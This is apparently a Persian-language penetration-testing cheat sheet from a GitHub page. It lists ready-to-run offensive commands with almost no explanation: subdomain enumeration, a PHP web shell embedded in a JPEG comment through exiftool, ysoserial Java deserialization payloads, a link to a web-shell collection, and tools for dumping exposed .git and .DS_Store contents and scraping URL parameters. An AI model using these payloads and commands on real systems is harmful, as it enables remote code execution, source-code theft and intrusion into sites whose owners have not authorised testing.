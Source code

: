 و 

```text
assetfinder --subs-only <domain> | httprobe
```

## تزریق php درون jpeg

```text
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' me.jpg
```

## اکسپلویت deserialization برنامه های جاوا

```text
java -jar ysoserial.jar CommonsBeanutils1 'COMMAND' | base64 -w0
```

## وب شل های معروف

```text
https://github.com/TheBinitGhimire/Web-Shells
```

## استخراج ساختار پوشه ها و فایل ها از .git

https://github.com/arthaud/git-dumper

```text
./git-dumper.py http://example.com/.git/ example.com
```

## استخراج اطلاعات از .git

https://github.com/internetwache/GitTools

```text
./extractor.sh /tmp/mygitrepo /tmp/mygitrepodump
```

## استخراج اطلاعات از .DS_Store

```text
1-find structure
python2.7 ds_store_exp.py http://poo.htb/.DS_Store
2-enum in finded path 
java -jar iis_shortname_scanner.jar 2 20 http://poo.htb/dev/dca66d38fd916317687e1390a420c3fc/db/
```

## استخراج پارامتر های صفحات

```text
python3 paramspider.py --domain bugcrowd.com --exclude woff,css,js,png,svg,php,jpg --output bugcrowd.txt
```

## بررسی ساختار پارامتر ها بر اساس الگو های آسیب پذیری ها

```text
gf xss domain.txt
gf potential domain.txt
```
